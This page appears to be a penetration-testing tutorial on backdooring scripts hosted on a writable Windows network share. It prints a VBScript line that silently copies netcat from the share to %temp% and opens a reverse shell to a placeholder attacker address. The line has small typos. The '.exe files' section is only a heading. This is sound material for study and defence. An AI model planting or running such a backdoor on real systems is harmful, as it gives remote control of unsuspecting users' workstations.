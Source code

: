 # Abusing writable shares

## Resources

1. `CreateObject` function

{% embed url="https://learn.microsoft.com/en-us/office/vba/language/reference/user-interface-help/createobject-function" %}

2. `Run` method

{% embed url="https://www.vbsedit.com/html/6f28899c-d653-4555-8a59-49640b0e32ea.asp" %}

{% embed url="https://ss64.com/vb/run.html" %}

3. `copy`&#x20;

{% embed url="https://learn.microsoft.com/en-us/windows-server/administration/windows-commands/copy" %}

## Backdoor mechanism

It is quite common to find network shares that hosts executable or scripts created by the administrator, that users can use to perform daily tasks. This is useful  for users since they can execute the shared resource without copying or installing it.&#x20;

Whenever a user opens the shortcut on their workstation, the executable or script will be copied from the server to the local `%temp%` folder, where it will be executed. Thus, any payload will run in the context of the final user's workstation and logged-in user account.

If the share is writable by anyone (or at least our compromised account), we can abuse this to create a backdoor.

### (1) Backdoor via `.vbs` scripts

Given that we have found a VBS (`.vbs` ) script running hosted on the share, we can inject a malicious code into script to provide ourselves with a backdoor.

First, we have to upload a binary (such as `nc64.exe` ) that will aid us in creating the backdoor. This can be achieved using [smbclient](https://jarrettgxz-sec.gitbook.io/networking-concepts/networking-tools/miscellaneous/smbclient).

Next, we can inject the malicious in the existing script. Assuming that the writable share is at `\\TARGET_IP\writable_share` .

{% code overflow="wrap" %}
```visual-basic
CreateObject("WScript.Shell").Run "cmd.exe /c copy /y \\TARGET_IP\writable_share\nc64.exe %temp% & %tmp%\bnc64.exe -e cnd.exe ATTACKER_IP PORT", 0, True
```
{% endcode %}

Essentially, this command executes a command from  `cmd.exe` , which calls `copy` to copy the uploaded `nc64.exe` binary on the share to the `%temp%` directory, before executing the reverse shell that provides us a backdoor to the system.

* the `/y` flag to `copy` means

> Suppresses prompting to confirm that you want to overwrite an existing destination file.

&#x20;According to this [page](https://www.vbsedit.com/html/6f28899c-d653-4555-8a59-49640b0e32ea.asp), the following describes the last 2 values provided to the `Run` method:

* `intWindowStyle`

> Optional. Integer value indicating the appearance of the program's window. Note that not all programs make use of this information.

value of `0` : "Hides the window and activates another window."

* `bWaitOnReturn`

> Optional. Boolean value indicating whether the script should wait for the program to finish executing before continuing to the next statement in your script.&#x20;

If set to `True` , script execution halts until the program finishes.



Now, whenever someone executes this script, we will gain a remote shell on that user's desktop.

### (2) Backdoor via `.exe` files





